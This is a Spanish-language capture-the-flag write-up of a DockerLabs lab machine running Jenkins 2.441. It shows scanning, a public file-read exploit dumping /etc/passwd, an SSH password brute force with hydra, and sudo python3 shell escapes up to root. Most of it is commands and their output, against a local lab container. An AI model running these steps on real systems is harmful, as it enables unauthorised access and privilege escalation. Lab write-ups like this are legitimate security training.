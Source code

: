 [[Writeups]]
#Writeups #Easy #DockerLabs

![dockerLabs.png](assets/dockerLabs.png)

Hacemos un escaneo general:

```bash
❯ sudo nmap -sS -p- -Pn --min-rate 5000 172.17.0.2
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-06-04 10:35 CEST
Nmap scan report for 172.17.0.2
Host is up (0.0000060s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
8080/tcp open  http-proxy
MAC Address: 02:42:AC:11:00:02 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 1.19 seconds
```

Encontramos dos servicios activos, un ssh y un http, vamos a hacer un escaneo mas profundo:

```bash
❯ sudo nmap -p22,8080 -sCV 172.17.0.2
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-06-04 10:38 CEST
Nmap scan report for 172.17.0.2
Host is up (0.000030s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
| ssh-hostkey: 
|   256 94:fb:28:59:7f:ae:02:c0:56:46:07:33:8c:ac:52:85 (ECDSA)
|_  256 43:07:50:30:bb:28:b0:73:9b:7c:0c:4e:3f:c9:bf:02 (ED25519)
8080/tcp open  http    Jetty 10.0.18
| http-robots.txt: 1 disallowed entry 
|_/
|_http-title: Site doesnt have a title (text/html;charset=utf-8).
|_http-server-header: Jetty(10.0.18)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.12 seconds
```

Vemos la web y es un login de jenkins:

![secrejenkingsloginweb.png](assets/secrejenkingsloginweb.png)

Probé insertar credenciales por defecto y buscar directorios ocultos por gobuster pero no encontré nada así que vamos a hacer un whatweb a ver que información podemos sacar de las versiones de programas que este usando la web:

```bash
❯ whatweb 172.17.0.2:8080
http://172.17.0.2:8080 [403 Forbidden] Cookies[JSESSIONID.bf331c09], Country[RESERVED][ZZ], HTTPServer[Jetty(10.0.18)], HttpOnly[JSESSIONID.bf331c09], IP[172.17.0.2], Jenkins[2.441], Jetty[10.0.18], Meta-Refresh-Redirect[/login?from=%2F], Script, UncommonHeaders[x-content-type-options,x-hudson,x-jenkins,x-jenkins-session]

http://172.17.0.2:8080/login?from=%2F [200 OK] Cookies[JSESSIONID.bf331c09], Country[RESERVED][ZZ], HTML5, HTTPServer[Jetty(10.0.18)], HttpOnly[JSESSIONID.bf331c09], IP[172.17.0.2], Jenkins[2.441], Jetty[10.0.18], PasswordField[j_password], Title[Sign in [Jenkins]], UncommonHeaders[x-content-type-options,x-hudson,x-jenkins,x-jenkins-session], X-Frame-Options[sameorigin]
```

Obtenemos la versión de Jetty que también obtuvimos en nmap y la versión de Jenkins 2.441, vamos a buscar si existen exploits para esta versión:

![secretjenkinscve.png](assets/secretjenkinscve.png)

Vemos un Local File Inclusion así que lo descargamos y lo ejecutamos con python a ver si nos da algún resultado:

```bash
❯ python3 51993.py
usage: 51993.py [-h] -u URL [-p PATH]
51993.py: error: the following arguments are required: -u/--url
❯ python3 51993.py -u http://172.17.0.2:8080 -p /etc/passwd
systemd-network:x:998:998:systemd Network Management:/:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
jenkins:x:1000:1000::/var/jenkins_home:/bin/bash
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
systemd-timesync:x:997:997:systemd Time Synchronization:/:/usr/sbin/nologin
messagebus:x:100:102::/nonexistent:/usr/sbin/nologin
root:x:0:0:root:/root:/bin/bash
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
sshd:x:101:65534::/run/sshd:/usr/sbin/nologin
bobby:x:1001:1001::/home/bobby:/bin/bash
games:x:5:60:games:/usr/games:/usr/sbin/nologin
pinguinito:x:1002:1002::/home/pinguinito:/bin/bash
```

La vulnerabilidad funciona, y leyendo el etc/passwd podemos saber los usuarios del sistema, leí mas archivos por si encontraba alguna contraseña para entrar por el login pero no encontré nada así que decidí usar fuerza bruta con hydra para el ssh :

```bash
❯ touch users.txt
❯ echo bobby >> users.txt
❯ echo pinguinito >> users.txt
❯ hydra -L users.txt -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-06-04 12:30:24
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 28688798 login tries (l:2/p:14344399), ~1793050 tries per task
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: bobby   password: chocolate
^CThe session file ./hydra.restore was written. Type "hydra -R" to resume session.
```

Encontramos las credenciales **bobby:chocolate**.
Vamos a entrar al sssh:

```bash
❯ ssh bobby@172.17.02
The authenticity of host '172.17.0.2 (172.17.0.2)' cant be established.
ED25519 key fingerprint is SHA256:g5HpEMVrzx0F/fmegIvdqdciTROIw/2YvKHJAiaZ12U.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '172.17.0.2' (ED25519) to the list of known hosts.
bobby@172.17.0.2s password: 
Linux 05d715d4b44b 6.5.0-13parrot1-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.5.13-1parrot1 (2023-12-19) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
bobby@05d715d4b44b:~$ sudo -l
Matching Defaults entries for bobby on 05d715d4b44b:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User bobby may run the following commands on 05d715d4b44b:
    (pinguinito) NOPASSWD: /usr/bin/python3
bobby@05d715d4b44b:~$ 

```

Entramos como usuario bobby y haciendo una enumeración de permisos vemos que podemos ejecutar un comando de python3 como pinguinito, así que vamos a ello para hacer el movimiento lateral a pinguinito:

```bash
bobby@05d715d4b44b:~$ sudo -u pinguinito python3 -c 'import os; os.system("/bin/sh")'
$ whoami
pinguinito
$ 
```

El comando de python lo podéis encontrar en la web GTFOBINS, ahora vamos a enumerar los permisos de pinguinito:

```bash
$ sudo -l
Matching Defaults entries for pinguinito on 05d715d4b44b:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User pinguinito may run the following commands on 05d715d4b44b:
    (ALL) NOPASSWD: /usr/bin/python3 /opt/script.py
$ ls -la /opt/script.py
-r-xr--r-- 1 pinguinito root 272 May 11 08:22 /opt/script.py
$ 
```

Vemos que tenemos permisos de sudo para el script.py pero no tenemos permisos de escritura a pesar de ser propietarios del archivo, vamos a ver si podemos cambiar los permisos y escribir:

```bash
$ chmod +w /opt/script.py
$ echo import os; os.system("/bin/sh") > /opt/script.py
/bin/sh: 5: Syntax error: word unexpected (expecting ")")
$ echo 'import os; os.system("/bin/sh")' > /opt/script.py
$ cat /opt/script.py
import os; os.system("/bin/sh")
$ 
```

Ahora ejecutamos el script con sudo y vemos que obtenemos root:

![rootSecretJenkins.png](assets/rootSecretJenkins.png)

